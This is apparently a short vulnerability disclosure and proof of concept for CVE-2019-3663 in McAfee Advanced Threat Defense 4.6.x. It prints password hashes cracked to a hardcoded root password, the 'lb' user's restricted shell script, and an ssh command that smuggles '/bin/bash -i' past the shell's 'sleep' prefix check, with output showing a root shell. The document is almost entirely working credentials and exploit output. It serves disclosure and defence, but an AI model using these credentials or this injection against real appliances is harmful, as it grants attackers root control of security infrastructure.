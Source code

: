 # McAfee ATD CVE-2019-3663
* McAfee Advanced Threat Defense ATD 4.6.x and earlier - Hardcoded root password
* Security Bulletin: https://kc.mcafee.com/corporate/index?page=content&id=SB10304

## Interesting shadow entries
```
root:$6$hHb7yjP/$JY9Zf8jFCL966X8rbOqerkuXR86AUMl4bNCuDiEgoXWZEE5dWssWvnokv.54YG4/KRQuNbZBiUWur2/Tj4uUf0:18030:0:99999:7:::
lb:$6$.ewB2mx1KaJArlbX$Bk8y21qhRblgJrlPW68712YqlS/kII6iVxLw849NK/6PAVYLHto1btfL4s.2WVpMNh1tXIwzr/h
```

## Interesting passwd entries
```
root:x:0:0:root:/root:/sbin/nologin
lb:x:0:0::/home/lb:/opt/amas/bin/lb_shell
```

## Cracked hashes
```
$6$hHb7yjP/$JY9Zf8jFCL966X8rbOqerkuXR86AUMl4bNCuDiEgoXWZEE5dWssWvnokv.54YG4/KRQuNbZBiUWur2/Tj4uUf0:validedge
$6$.ewB2mx1KaJArlbX$Bk8y21qhRblgJrlPW68712YqlS/kII6iVxLw849NK/6PAVYLHto1btfL4s.2WVpMNh1tXIwzr/h4WIY60R1xe.:validedge
```

## Custom shell of 'lb' user
```
$ cat /opt/amas/bin/lb_shell
#!/bin/bash
# We accept exactly 2 args and in the form:
# -c <command>
if (( $# != 2 )) || [[ "$1" != "-c" ]] ; then
  echo interactive login not permitted
  exit 1
fi
case "$2" in
  # Accept only scp and fileupload commands
  "scp "* | "php /srv/www/htdocs/php/fileupload.php "* | "mv /vedata/"* | "cd /srv/www/htdocs/php/"* | "sleep"* | *"collectPerformanceData.sh "*)
  ;; # continue execution
   * )
   echo that command is not allowed
   exit 1
   ;;
esac
# Execute the command
/bin/bash -c "$2"
# Return with the exit status of the command
exit $?
```

# PoC
```
$ ssh -p 2222 lb@b.b.c.d "sleep 1;/bin/bash -i "
[root@mcafee ~]# id
id
uid=0(root) gid=0(root) groups=0(root)
[root@mcafee ~]#
```
